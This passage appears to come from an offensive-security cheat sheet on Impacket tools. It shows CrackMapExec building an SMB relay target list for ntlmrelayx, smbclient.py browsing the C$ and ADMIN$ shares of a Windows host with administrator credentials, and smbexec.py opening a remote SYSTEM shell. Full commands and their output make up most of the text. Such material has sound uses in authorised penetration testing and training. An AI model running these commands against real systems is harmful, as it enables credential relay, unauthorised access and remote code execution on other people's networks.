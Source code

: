 To use NTLMrelayx.py with a list of targets you want to relay to, first generate a list with [CrackMapExec]({{< ref "crackmapexec" >}}) by using the command below.

```plain
crackmapexec smb 192.168.10.0/24 --gen-relay-list targetlist
```

Then you can use the `-tf` flag with NTLMrelayx.py to use the targetlist created as input file.

### SMBClient - SMB client implementation

{{%attachments title="Related files" fa_icon_class="far fa-file-video" pattern="smbclient.mp4"/%}}

```plain
smbclient.py offsec.nl/administrator:Welkom1234@10.10.10.10

Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
# use C$
# ls
drw-rw-rw-          0  Tue Mar 17 16:11:19 2020 $Recycle.Bin
-rw-rw-rw-     389332  Tue Mar 17 01:27:24 2020 bootmgr
-rw-rw-rw-          1  Tue Mar 17 01:27:24 2020 BOOTNXT
drw-rw-rw-          0  Mon Mar 16 16:32:03 2020 Documents and Settings
-rw-rw-rw- 1073741824  Wed Mar 18 08:56:25 2020 pagefile.sys
drw-rw-rw-          0  Mon Mar 16 17:53:03 2020 PerfLogs
drw-rw-rw-          0  Tue Mar 17 01:30:24 2020 Program Files
drw-rw-rw-          0  Tue Mar 17 01:30:24 2020 Program Files (x86)
drw-rw-rw-          0  Tue Mar 17 16:14:16 2020 ProgramData
drw-rw-rw-          0  Mon Mar 16 16:32:05 2020 Recovery
drw-rw-rw-          0  Mon Mar 16 18:09:38 2020 System Volume Information
drw-rw-rw-          0  Tue Mar 17 16:10:54 2020 Users
drw-rw-rw-          0  Tue Mar 17 16:12:50 2020 Windows
-rw-rw-rw-          8  Wed Mar 18 13:10:48 2020 __output
```

### SMBexec - Start SYSTEM shell

{{%attachments title="Related files" fa_icon_class="far fa-file-video" pattern="smbexec.mp4"/%}}

#### Start RCE via SMB

```plain
smbexec.py <domain>/<domain-or-local-admin-or-user>:<password>@<domain-controller-ip>
```

```plain
smbexec.py offsec.nl/administrator:Welkom1234@10.10.10.16

Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```
